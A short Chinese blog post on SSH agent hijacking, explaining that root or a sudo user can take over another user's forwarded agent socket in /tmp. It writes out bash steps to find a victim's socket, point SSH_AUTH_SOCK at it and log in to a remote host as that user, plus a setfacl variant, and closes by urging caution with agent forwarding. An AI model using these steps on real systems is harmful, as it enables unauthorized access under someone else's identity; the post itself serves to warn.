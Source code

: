 title:SSH学习笔记之--Agent Hijacking 
Date: 2015-08-27 10:20
Modified: 2015-08-27 10:20
Category: 技术改变生活 
Tags: SSH, anget hijacking
Slug: ssh-agent-hijacking 
Authors: nullne 
####Agent Hijacking
agent forwarding在安全方面有一个好处就是用户的私钥永远不会出现在远端服务器或者传输过程中。但却会面临另外一个安全隐患：agent hijacking
	  
ssh实现的每一个方式都会提供一种让client向agent请求服务的机制，在UNIX/Linux上是用/tmp/文件夹下面的UNIX domain socket实现的。  
	
这个文件是被系统重度保护的，只有当前进程的用户才能访问，并且被保护在相应地子文件夹下面。但是任何措施都不能防止root用户访问任何一个文件。  
	
root用户可以通过该domain socket连接该socket对应的用户能够访问的任何机器，并且是以这个用户的身份。  
	
下面是简单的实现方式：

    :::bash
	ls -l /tmp/ssh*      #look for somebody's agent socket
	/tmp/ssh-CXkd6094:
	total 24
	srwxr-xr-x    1 steve    steve           0 Aug 30 08:46 agent.6094=
		
	export SSH_AUTH_SOCK=/tmp/ssh-CXkd6094/agent.6094

	ssh steve@remotesystem

	remote$                  # Gotcha! Logged in as "steve" user on remote system!

如果没有root权限也没关系，可能你有sudo的权限，同样下面的操作也可以完成相同的目的：  

    :::bash
	localhost$ ssh -A user@host
	$ setfacl -m otheruser:x   $(dirname "$SSH_AUTH_SOCK")
	$ setfacl -m otheruser:rwx "$SSH_AUTH_SOCK"
	$ sudo su - otheruser
	$ ssh server
	otheruser@server$

目前没有任何技术手段防止root用户劫持SSH agent socket，所以鉴于安全方面的考虑，慎用ssh angent forwarding.
